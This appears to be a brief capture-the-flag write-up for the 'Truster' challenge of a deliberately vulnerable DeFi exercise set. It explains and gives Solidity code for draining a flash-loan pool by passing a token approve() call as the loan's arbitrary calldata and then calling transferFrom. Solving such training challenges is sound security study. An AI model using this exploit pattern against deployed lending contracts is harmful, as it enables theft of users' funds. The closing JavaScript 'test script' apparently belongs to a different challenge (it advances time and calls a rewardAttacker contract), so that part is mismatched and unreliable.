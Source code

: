 # Truster

1. `TrusterLenderPool.sol` have `flashLoan` that let us do a call to `target` address with also providing `data` for the call. This can be abused by providing DVT token as `target` address and providing `approve()` with the attacker address and the DVT amount as parameter. Then we can drain the DVT from the contract.

```solidity
    bytes memory data = abi.encodeWithSignature(
        "approve(address,uint256)",
        address(this),
        borrowAmount
    );

    // we put malicious call inside flashLoan target and data, approve this attacker contract spending DVT on behalf of truster contract
    truster.flashLoan(
        borrowAmount,
        address(truster),
        address(damnValuableToken),
        data
    );

    // then we spend the DVT
    damnValuableToken.transferFrom(
        address(truster),
        msg.sender,
        borrowAmount
    );
```

the javascipt test script :

```javascript
await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);

await this.rewardAttacker.attack(TOKENS_IN_LENDER_POOL);
```
